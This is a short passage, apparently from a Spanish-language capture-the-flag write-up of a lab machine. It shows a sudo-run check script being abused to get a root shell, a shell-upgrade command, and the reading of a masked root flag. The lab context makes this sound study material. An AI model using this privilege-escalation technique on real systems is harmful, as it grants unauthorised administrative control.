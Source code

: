 Ahora lo ejecuto con sudo y consigo escalar privilegios a root.

```shell 
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.10, 0.26, 0.17
Database service is not running. Starting it...
whoami
root
script /dev/null -c bash 
Script started, output log file is '/dev/null'.
root@headless:/home/dvir#
```

Voy al directorio de root y leo la segunda flag.

```shell
root@headless:~# cat root.txt 
23************************48
root@headless:~#
```